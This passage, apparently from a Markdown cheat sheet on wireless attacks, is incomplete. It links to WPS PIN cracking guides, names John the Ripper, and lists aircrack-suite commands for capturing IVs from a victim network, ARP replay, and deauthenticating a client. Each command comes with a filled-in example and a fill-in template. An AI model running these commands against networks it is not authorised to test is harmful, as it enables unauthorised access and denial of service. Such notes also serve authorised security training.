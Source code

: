 #### Reference 

* https://tools.kali.org/wireless-attacks/reaver
* https://null-byte.wonderhowto.com/how-to/hack-wpa-wifi-passwords-by-cracking-wps-pin-0132542/	  


## John The Ripper

Brute FOrce Password cracker from hash


### Installations

```sh
sudo apt install john 
```

### Sniffing IVS (Initialization Vectors)

```sh
sudo airodump-ng -c 7 --bssid F4:F2:6D:D0:AC:9A -w dump wlo1mon
```

Command is of type :

```sh
sudo airodump-ng -c <Victim's Channel Number> --bssid <Victim's BSSID> -w <File Name to save under> <Your interface which is in monitor mode>
```


### ARP Replay 

```sh
sudo aireplay-ng --arpreplay -b F4:F2:6D:D0:AC:9A -c A4:70:D6:82:27:8F wlo1mon
```


Command is of type :

```sh
sudo aireplay-ng --arpreplay -b <Target Bssid> -c <Client COnnected to the Target> wlo1mon
```

### Deauth The client 
(Same as mentioned above sections) 

```sh
sudo aireplay-ng --deauth 5 -a F4:F2:6D:D0:AC:9A -c A4:70:D6:82:27:8F wlo1mon
```

---Incomplete